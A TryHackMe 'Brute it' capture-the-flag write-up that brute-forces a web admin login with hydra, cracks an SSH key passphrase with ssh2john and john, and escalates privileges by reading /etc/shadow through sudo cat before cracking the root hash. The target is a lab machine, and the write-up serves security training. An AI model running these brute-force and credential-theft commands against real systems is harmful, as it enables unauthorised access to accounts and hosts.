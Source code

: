 ```yaml
---
title: Brute it - Easy THM
date: 2023-11-12 08:11:31 +/-0800
categories: [writeup, tryhackme]
writeup: :title
permalink: /bruteit
tags: [thm, writeup, easy, linux, hash cracking, web, talace]     # TAG names should always be lowercase
---
```


- OS: Linux
- Difficulty: Easy
- Author: Talace🌌

# Scanning

**Threader3000**
```bash
python3 threader3000.py

Port 80 is open
Port 22 is open
```
**nmap scan**
```bash
nmap -p80,22 -sV -sC -T4 -Pn -oA 10.10.205.60 10.10.205.60

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
# Enumeration

Starting by enumerate the website with **dirb** 🧐
```bash
dirb http://10.10.205.60/ /usr/share/wordlists/dirb/common.txt

http://ip/admin/
```
Found a form login on the /admin/
![loginForm](/assets/bruteit/loginform.png)

Let's brute force it with **hydra**
```bash
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.205.60 http-post-form "/admin/:user=admin&pass=^PASS^:Username or password invalid"
```

> Found the creds! 😼

![hydraBruteForce](/assets/bruteit/hydraBruteForce.png)

We now got access to this page, we have the user's **flag** (youhou!), a user name's **John**, and a **private key ssh**

![panelAdmin](/assets/bruteit/panelAdmin.png)

Let's use **ssh2john** to crack it! 🤠
```bash
echo 'private rsa key' >> id_rsa

ssh2john id_rsa > id_rsa.hash

john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```

> **We got the password!**

![johnCrackRsa](/assets/bruteit/johnCrackRsa.png)

# Privilege escalation

Connect via ssh
```bash
chmod 400 id_rsa

ssh -i
```

Looking for sudo rights and found this banger!
```bash
sudo -l

(root) NOPASSWD: /bin/cat
```

Let's use it for our own!
```bash
LFILE=/etc/shadow

sudo cat "$LFILE"
```

Now that i can read /etc/shadow, i'm going to crack it with unshadow && john
```bash
echo 'root:x:0:0:root:/root:/bin/bash' >> passwd.txt

echo 'root:hash' >> shadow.txt

unshadow passwd.txt shadow.txt > unshadow.txt
```

It's time to crack it!
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt
```

> And me able to get root! Brute it is pwned! 😼

![root](/assets/convertMyVideo/root.png)

# Resources
https://gtfobins.github.io/gtfobins/cat/